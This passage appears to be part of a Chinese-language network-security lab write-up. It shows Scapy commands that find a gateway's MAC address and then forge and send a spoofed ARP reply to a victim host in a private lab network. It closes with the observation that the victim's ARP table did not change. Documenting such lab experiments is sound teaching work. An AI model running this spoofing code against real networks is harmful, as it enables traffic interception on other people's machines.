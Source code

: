 step 2：发送这个 ARP 广播请求     

`recved = srp(arpbroadcast, timeout=2)`  
```
>>> recved = srp(arpbroadcast, timeout=2)
Begin emission:
Finished sending 1 packets.
*
Received 1 packets, got 1 answers, remaining 0 packets
```
网关 MAC 地址如下:    
`gw_mac = recved[0][0][1].hwsrc`    

step 3：伪造网关的 ARP 响应包    
准备发送给受害者主机 172.16.111.139   
ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址     
```
arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.139", hwdst="08:00:27:25:74:b8") 
```

step 4：发送上述伪造的 ARP 响应数据包到受害者主机   
`sendp(arpspoofed)`

![](image/send1.png)  

但是受害者主机的 ARP 表并没有任何变化  

![](image/arpnochange.png)  
